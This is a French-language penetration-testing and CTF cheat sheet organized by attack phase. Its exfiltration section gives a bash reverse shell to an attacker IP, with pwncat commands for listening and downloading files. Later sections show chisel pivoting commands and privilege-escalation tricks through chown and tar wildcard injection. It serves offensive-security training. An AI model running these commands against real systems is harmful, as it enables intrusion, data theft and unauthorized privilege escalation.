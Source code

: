 # Reconnaissance
# Scanning & Enumeration


# Exploitation (Gaining Access)
# Exfiltration de données
Utilisation de pwncat:
1. Côté attaquant:
<code>pwncat-cs -lp 1337</code>

2. Côté cible
<code>bash -c 'bash -i >& /dev/tcp/$YOUR_IP/1337 0>&1'</code>

3. Côté attaquant
<code>download /chemin/fichier</code>

# Rebond 
## Resources
1. Etat de l'art
https://www.orangecyberdefense.com/fr/insights/blog/ethical-hacking/etat-de-lart-du-pivoting-reseau-en-2019
2. Machines HTB
Rebond avec chisel: 
    - Talkative
## Rebond avec chisel
Lien vers le binaire: https://github.com/jpillora/chisel/releases/ 
1. Sur la machine de l'attaquant:
```shell
./chisel server --reverse -p 8000
```
2. Sur la machine rebond:
```shell
./chisel client <adresse_attaquant>:8000 R:<port_localhost>:<adresse_cible>:<port_cible>
```
3. Accéder au port cible de la machine distante
joindre localhost:<port_localhost>

## Amelioration du shell
- Si python n'est pas présent 
<code> script /dev/null -c bash</code>
ou
```console
script /dev/null -c bash
ctrl-z
stty raw -echo; fg
Enter twice
```

# Privilege Escalation
## Recherche de défaut de configuration et de vulnérabilités
### Utilisation de pspy
Si /proc est monté avec hidepid=2 il n'est pas possible lister les process d'autres utilisateurs
Le script peut-être trouvé ici: https://github.com/DominicBreuker/pspy.git 
### Utilisation de linpeas
Lien vers le binaire: https://github.com/carlospolop/PEASS-ng/releases
## Lister les capabilities
```console
capsh --print
```
Liste des exploists liés aux capabilities https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#cap_dac_read_search 

## Wildcard 
Source: https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/

### File owner hijacking via Chown
chown -R <utilisateur>:<group> *.extension
Peut être bypassé par l'option --reference=<autre_fichier> qui confère au propriétaire de <autre_fichier> l'ensemble des fichiers visé par le chown.  
Il est également possible d'ajouter un fichier avec la commande suivante:
```console
echo "" > monfichier.extension
echo > --reference=monfichier.extension
```
Ainsi quand la commande sera exécuté les fichiers prendront le propriétaire et le groupe de monfichier.extension

### Tar Wildcard Injection
La commande tar permet aussi l'exécution de commande grâce aux options:  
```console
--checkpoint-action=exec=sh shell.sh
--checkpoint=1
```
checkpoint permet d'afficher un messages pour x compression (par défaut 10)
checkpoint-action=ACTION permet d'éxécuter une ACTION à chaque checkpoint.

### Rsync execution
L'option -e de l commande rsync permet d'executer une commande ssh sur l'hôte distant.

# Command & Control (Persistence/Maintaining Access)
# Clearing Tracks (usually not necessary in CTF’s, but good practice)

# Resources
